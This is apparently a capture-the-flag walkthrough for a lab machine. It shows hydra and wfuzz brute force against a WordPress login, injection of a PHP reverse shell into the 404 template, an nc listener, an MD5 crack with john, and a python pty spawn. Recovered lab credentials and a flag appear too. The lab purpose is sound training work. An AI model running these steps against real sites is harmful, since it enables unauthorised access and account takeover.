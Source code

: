 As we found a directory in the **robots.txt** now we will check that dictionary file and see what do we have there.
the name is **fsocity.dic** dont type it directly just like me and type fsociety.dic!!!!!!.

tihs is the output that i got from the .dic file
![[key2_photo1.png]]
this is a long dic and now we will do copy this to our local machine from any way u want to.

The only thing i will do is copy this and make a new file and then paste it that's it.
![[key2_photo2.png]]
then u can check the file content in terminal and then you will notice that the files contains so many duplicates 
so i did is first sort the file and then save the unique strings in a new file.
which is done by the command **sort** and **grep** and **uniq**.
**grep -oE '[a-zA-Z]+' fsociety.txt | sort | uniq > f.txt**
so we have a sorted file.

Now time to check other directories from the gobuster output we got.
so you can check each i will be directly moving to the **/wp-admin**.
Sorry for the change in ip as i faced some connection issues you can continue as per you ip.
it looked something like this:
![[key2_photo3.png]]
now as u can see we r asked to enter username and password and for this site u can check one unique thing in which if the username is incorrect it will show invalid username which will be easy for us to get the true username through bruteforce.
![[key2_photo4.png]]
so lets do the brute forcing using the dictionary file we got from the server.
We can use various tools like **hydra** , **burpsuite** as well as **wfuzz**.
i will use **hydra** as well as **wfuzz**.
**hydra -L f.txt -p test 10.10.164.176 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username"**
so this shows that we will use f.txt file for bruteforce of username then set password with some random text instead of blank.
also set the fail string as **Invalid Username**
which will be easy to set.
the output we get is this
![[key2_photo5.png]]
so here we got the username as we got the error which is not equal to incorrect username so we will use these  usernames and then again use the same file for password brute force and get the correct credentials.
Usernames: **ELLIOT, Elliot**
![[key2_photo6.png]]
now bruterforce for password with same password file 
now using **Wfuzz** for the bruteforce of password 
the commmand for that is 
**wfuzz -c -z file,f.txt -d "log=ELLIOT&pwd=FUZZ" http://10.10.117.182/wp-login.php**
![[key2_photo7.png]]
the password we got
![[key2_photo8.png]]
password:**ER28-0652**
![[key2_photo9.png]]
Here we got the login
now u can check and browse and see the services we can use and exploit.
i'll move start to the further step i.e. getting a reverse shell.
so we will use the **pentestmonkey** and generate a shell script.
Also while it is getting generated u can also check the place in which we are going to inject the php script code and then execute it on the action performed.
Link for pentestmonkey: **https://github.com/pentestmonkey/php-reverse-shell.git**
![[key2_photo10.png]]
Location for the shell script injection: Inside of ELLIOT account
**Appearances -> Editor -> 404 Template**
![[key2_photo11.png]]
This is the reverse shell script that is already made and u have to use it directly
**IMPORTANT POINT change the credentials that are highlighted in the image.**
so i have changed the ip and port no is 4444 for listening on your attack machine.
Now we will do 2 steps first copy the complete script and then paste it below the code of 404 template and then update it
second open a terminal and start listening on port no 4444
![[key2_photo12.png]]
check the photo and then click update
now open terminal and run this code to start listening on port 4444
**nc -lvnp 4444**
now this means that you have to enter a uri or a page which does not exist on the elliot account. which will call the 404 template and our code will get executed and we will get reverse shell.
**http://10.10.117.182/wp-admin/page=45**
![[key2_photo13.png]]
by hitting this url you will be prompted to your shell which will be waiting with the reverse shell you just obtained.

Now obtain a shell and then check the files that are there in robot directory
the commands we used for getting here.
**bash -i**
**whoami**
**cd /home/robot**
here you will see 2 files first check the password file which contains hash value of password of user robot which is done by md5.
and also when you check the key file you will see that the permission is denied to see that file.
![[key2_photo14.png]]
so now use the password and crack it using john the ripper.
first store the hash file on your target machine and then use this command to crack the hash
the wordlist we are using is rockyou.txt and the hash file name is password.hash in my attack machine.
**john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt password.hash**
then the output i get is this:
![[key2_photo15.png]]
the password is **abcdefghijklmnopqrstuvwxyz**
So now we need to change the user as the daemon wont have much of permissions 
command to change user to robot
**su robot**
then enter password that is decoded above
but it will show the prompt that you need terminal to do that we can use python script which will help us to spawn bash or can say tty terminal 
which will help us to get the second key 2 by accessing the robot user
Command for the same is as follows:
**python -c 'import pty; pty.spawn("/bin/bash")'**
which means that we are prompting the bash with python script or command
and this results like below
![[key2_photo16.png]]
see now we can get the access to robot user 
now enter the password and the second key is yours
output of the same
![[key2_photo17.png]]
key-2-of-3.txt:**822c73956184f694993bede3eb39f959**


